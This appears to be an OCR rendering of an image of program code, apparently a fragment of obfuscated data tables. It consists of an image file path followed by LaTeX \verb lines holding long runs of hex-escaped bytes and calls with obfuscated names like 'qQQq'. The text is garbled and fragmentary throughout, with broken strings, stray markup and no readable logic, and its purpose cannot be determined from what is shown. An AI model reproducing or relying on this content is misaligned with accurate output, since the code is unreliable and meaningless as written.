 \verb|\\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\|\newline
\verb|\\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\x51\|\newline
\verb|\\x51"|\newline
\verb|),|\newline
\verb|qQQq(7,qQQqqQQq|\newline
\verb|"\x58\x58\x58\x58\x58\x58\x58\x58\x58\x5a\x18\x58\x58\x5c\x58\x58\|\newline
\verb|\\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\|\newline
\verb|\\x5a\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\|\newline
\verb|\\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\|\newline
\verb|\\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\|\newline
\verb|\\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x59\x58\x58\x58\|\newline
\verb|\\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\|\newline
\verb|\\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\x58\|\newline
\verb|\\x58"|\newline
\verb|),|\newline
\verb|qQQq(9,qQQqqQQq|\newline
\verb|"\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x18\x5d\x5d\x57\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x00\x00\x60\x5d\x5d\x5d\x5d\x5e\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
